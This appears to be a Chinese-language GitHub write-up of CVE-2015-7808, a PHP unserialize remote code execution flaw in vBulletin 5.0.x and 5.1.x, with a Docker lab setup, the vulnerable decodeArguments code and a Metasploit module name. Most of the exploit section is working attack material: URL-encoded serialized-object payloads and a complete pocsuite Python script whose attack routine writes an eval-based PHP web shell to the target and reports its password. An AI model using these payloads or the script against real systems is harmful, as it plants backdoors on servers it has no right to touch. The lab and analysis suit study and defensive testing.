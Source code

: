 # CVE-2015-7808

CVE-2015-7808是vBulletin 5.0.x & 5.1.x的一个反序列化导致的代码执行漏洞。

## 环境重现

```
docker run -d -i --name CVENUM -p 80:80 xk0n/cve-2015-7808
```

## 漏洞成因

vBulletin会进行一次rewrite，根据其htaccess文件，可以知道默认将路径作为routestring参数内容传给index.php了，由index.php做路由。

```
# Main Redirect
RewriteCond %{REQUEST_URI} !\.(gif|jpg|jpeg|png|css)$
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ index.php?routestring=$1 [L,QSA]
```

根据最先pastebin上的[文章](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)的poc

```
http://localhost/vbforum/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D
```

`/ajax/api/hook/decodeArguments`会通过路由调用 `core/vb/api/hook.php`中的`decodeArguments`函数，这也是漏洞出现的地方，在183行中对`$arguments`进行了反序列化操作。

```php
181     public function decodeArguments($arguments)
182     {
183         if ($args = @unserialize($arguments))
184         {
185             $result = '';
186 
187             foreach ($args AS $varname => $value)
188             {
189                 $result .= $varname;
190 
191                 if(is_array($value))
192                 {
193                     $this->decodeLevel($result, $value, '=');
194                 }
195 
196                 $result .= "\n";
197             }
```

## 影响版本

- 5.0.x
- 5.1.x 5.1.2 to 5.1.9

## Exploit

这个漏洞的利用公开的方法有两类，一是利用了PHP迭代器在迭代时首先调用其rewind函数的特性，构造一个rewind函数存在问题的类；一是利用对象的魔术方法，如` __destruct`，最终造成eval方法，可以参考[checkpoint的博客](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)。

这里我根据RickGray的分析，用pocsuite写了一个poc：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import urlparse
from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class vB5_RCE(POCBase):
    vulID = "None"
    version = "1"
    author = ["xkon"]
    createDate = "2016-01-24"
    updateDate = "2016-01-24"
    references = ["http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq",
                  "rickgray.me/2015/11/06/unserialize-attack-with-vbulletin-5-x-x-rce.html"]
    name = "_002_vBulletin_5_unserialize_RCE"
    appPowerLink = "https://www.vbulletin.com/"
    appName = "vBulletin"
    appVersion = "5.x.x"
    vulType = "RCE"
    desc = '''
        vBulletin 5.x.x 在反序列化时接受了不安全的输入，导致对象注入，
        可以导致远程代码执行
        '''
    samples = ["http://172.16.0.14:8080/"]

    def _attack(self):
        '''
        在根目录下生成一个shell，1.php
        <?php eval($_POST["a"]);?>
        '''
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A55%3A%22file_put_contents%28%271.php%27%2C%27%3C%3Fphp+eval%28%24_POST%5B%22a%22%5D%29%3B%3F%3E%27%29%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, "/ajax/api/hook/decodeArguments?arguments=%s"%payload)
        resp = req.get(vulurl)
        if resp.status_code == 200:
            verify_payload = {"a":"echo md5(0x2333);"}
            shell_url = urlparse.urljoin(self.url, '/1.php')
            resp1 = req.post(shell_url,data=verify_payload)
            if resp1.status_code == 200 and "840c3eda3ea42ecd90aeb3434f3510b7" in resp1.content:
                result['shellURL'] = shell_url+"  password: a"
                return self.parse_attack(result)
        return self.parse_attack(result)

    def _verify(self):
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A13%3A%22print+md5%281%29%3B%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, '/ajax/api/hook/decodeArguments?arguments=%s'%payload)
        print vulurl
        resp = req.get(vulurl)
        if resp.status_code == 200 and "c4ca4238a0b923820dcc509a6f75849b" in resp.content:
            result["VerifyInfo"]={}
            result["VerifyInfo"]['URL'] = vulurl
            result["VerifyInfo"]["Payload"] = payload

        return self.parse_attack(result)

    def parse_attack(self,result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output

register(vB5_RCE)
```

![](./test.png)

msf的利用：

```
exploit/multi/http/vbulletin_unserialize
```

https://www.rapid7.com/db/modules/exploit/multi/http/vbulletin_unserialize

## 参考

- http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq
- http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/
